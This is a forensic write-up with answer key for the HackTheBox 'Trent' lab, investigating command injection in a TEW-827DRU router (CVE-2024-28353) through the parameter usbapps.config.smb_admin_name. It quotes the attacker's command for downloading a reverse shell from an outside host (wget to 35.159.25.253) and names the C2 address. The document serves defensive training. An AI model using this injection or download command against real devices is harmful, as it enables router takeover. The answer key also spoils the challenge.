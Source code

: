 # ![logo](https://github.com/user-attachments/assets/1fbed51a-e14c-4c34-829c-d429bcaa5e04) Trent - DFIR Analysis (HackTheBox)

###   Scenario Overview

The SOC team has identified **suspicious lateral movement** targeting **router firmware** within the network. Network traffic logs reveal **anomalous traffic** and **unauthorized command execution**, indicating that an attacker already present inside the network has compromised a router and is attempting further exploitation.
You are provided with **network traffic logs** from one of the impacted machines. Your objective is to conduct a thorough forensic investigation to uncover the attacker’s **Tactics, Techniques, and Procedures (TTPs)**.

---

###  Investigation Tasks

- Observe the Logs as you can see 192.168.10.2 making connections to the router

####  Task 1  
**Question:** From what IP address did the attacker initially launch their activity?  
**Answer:** `192.168.10.2`

---
- Since we are monitoring the infected router logs look for the incoming traffic IP address.
- Filter for HTTP traffic in Wireshark  and review all Post requests as there are multiple interesting URL traffic.
- Upon review you will find post requests where the attacker is trying to login to the router. If you follow TCP stream of those requests. You will find the router Model Name.
  ![task_2](https://github.com/user-attachments/assets/00236fe7-bac1-4807-9047-f831b6dfe048)

####  Task 2  
**Question:** What is the model name of the compromised router?  
**Answer:** `TEW-827DRU`

---

- If you review all post requests for login with URI  /apply_sec.cgi?csrf_token=
- You will find two failed requests (11:52:53 and 11:52:40) and a successful  login at 2024-05-01 11:53:27 (remember this is EST and UTC is : 2024-05-01 15:53:27)
  ![task_6](https://github.com/user-attachments/assets/c11ddf5a-d2de-4c47-a601-e2225d2e1208)

####  Task 3  
**Question:** How many failed login attempts did the attacker try before successfully logging into the router?  
**Answer:** `2`

####  Task 4  
**Question:** At what UTC time did the attacker successfully log into the router’s web admin interface?  
**Answer:** `2024-05-01 15:53:27 UTC`

---

- Now lets review the Successful Post request. Right click on the packet → Follow → TCP Stream
![task_5](https://github.com/user-attachments/assets/082551a3-4b93-4c4e-a0ee-0d6b8eec0f96)
- You can see no password was entered for successful login

####  Task 5  
**Question:** How many characters long was the password used to log in successfully?  
**Answer:** `0`

####  Task 6  
**Question:** What is the current firmware version installed on the compromised router?  
**Answer:** `2.10`

---

- Now lets review POST requests after 2024-05-01 11:53:27 and you can find multiple POST requests
- Review each one of them by following TCP stream to understand what is happening.
- As you review you will find every Post request trying to inject values to parameter : **“ usbapps.config.smb_admin_name”**
- Like these requests tries to inject **“Whoami”** and some URL with Wget indicating attacker was successful at **command injection**
![task_b](https://github.com/user-attachments/assets/45110500-d631-4be1-b602-7b8659de1dad)
![task_a](https://github.com/user-attachments/assets/6be7e9f7-eb74-4992-acc3-63ae1faa23bf)
- As we can point out that the attacker is using command injection to connect the router to its C2 server.



####  Task 7  
**Question:** Which HTTP parameter was manipulated by the attacker to get remote code execution (RCE) on the system?  
**Answer:** `usbapps.config.smb_admin_name`

---

- Since we Know its a TEW-827DRU router and a remote code execution is performed lets perform some threat intelligence action look for The router with command injection vulnerabilites.
- You will find this https://nvd.nist.gov/vuln/detail/CVE-2024-28353#match-16536444with CVE and router version number.

####  Task 8  
**Question:** What is the CVE number associated with the vulnerability exploited in this attack?  
**Answer:** `CVE-2024-28353`

---

####  Task 9  
**Question:** What was the first command the attacker executed by exploiting the vulnerability?  
**Answer:** `whoami`

- Command observed in the earlier post request.
---

####  Task 10  
**Question:** What command did the actor use to initiate the download of a reverse shell to the router from a host outside the network?  
**Answer:** `wget http://35.159.25.253:8000/a1l4m.sh`

---

- When you reviewed post requests earlier you can find POST requests where the reverse shell failed
![task_7-11](https://github.com/user-attachments/assets/76adbb33-3c37-4d4d-84ec-9d6c81cefa2f)
- Error message observed in the POST response following typo injection.

####  Task 11  
**Question:** When the actor made a typo during injection, what response message did the server return?  
**Answer:** `Access to this resource is forbidden`

#### Task 12  
**Question:** What was the IP address and port of the C2 server when the reverse shell successfully connected?  
**Answer:** `35.159.25.253:41143`

---

###  Summary

The attacker leveraged a **remote code execution vulnerability** (CVE-2024-28353) in the **TEW-827DRU router**, exploiting an HTTP parameter via POST requests. Through command injection (`usbapps.config.smb_admin_name`), they executed commands such as `whoami` and used `wget` to pull a reverse shell script, which ultimately connected to a **C2 server** at `35.159.25.253:41143`.

---


